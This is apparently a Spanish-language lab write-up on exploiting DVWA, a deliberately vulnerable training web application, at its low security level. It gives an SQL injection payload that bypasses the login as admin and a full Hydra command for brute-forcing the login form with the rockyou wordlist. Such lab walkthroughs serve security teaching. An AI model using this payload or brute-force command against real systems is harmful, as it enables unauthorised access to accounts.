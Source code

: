 # Explotación Nivel Bajo DVWA

## 1. SQL Injection (Bypass Login)

**Payload:** `admin' OR '1'='1' --`

**Ejecución:** Ingresar en campo `username`, dejar `password` vacío.

**Resultado:** Acceso como `admin` sin contraseña.

<img src="./../assets/BruteForceLow01.png">

## 2. Fuerza Bruta

### 2.1. Hydra

**Comando:**
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP_SERVIDOR> http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=<TU_SESION>;security=low:F=Username and/or password incorrect."
```

<img src="./../assets/BruteForceLow02.png">

Nota: Reemplazar <IP_SERVIDOR> y <TU_SESION>.

Resultado: Contraseña de admin.

